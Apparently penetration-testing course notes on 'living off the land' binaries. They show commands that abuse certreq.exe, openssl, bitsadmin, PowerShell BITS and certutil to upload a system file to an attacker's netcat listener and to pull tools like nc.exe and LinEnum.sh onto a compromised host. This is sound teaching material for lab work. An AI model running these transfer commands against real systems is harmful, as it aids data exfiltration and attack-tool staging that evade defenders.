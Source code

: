 # Living off The Land

The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

* Download
* Upload
* Command Execution
* File Read
* File Write
* Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

## LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

### **Upload win.ini to our Pwnbox**

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

```shell-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

### **File Received in our Netcat Session**

```shell-session
al1abb@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

## GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### **Create Certificate in our Pwnbox**

We need to create a certificate and start a server in our Pwnbox.

```shell-session
al1abb@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### **Stand up the Server in our Pwnbox**

```bash
al1abb@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

### **Download File from the Compromised Machine**

Next, with the server running, we need to download the file from the compromised machine.

```bash
al1abb@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools:

## Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

### **File Download with Bitsadmin**

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

### **Download**

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

## Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

### **Download a File with Certutil**

```shell-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
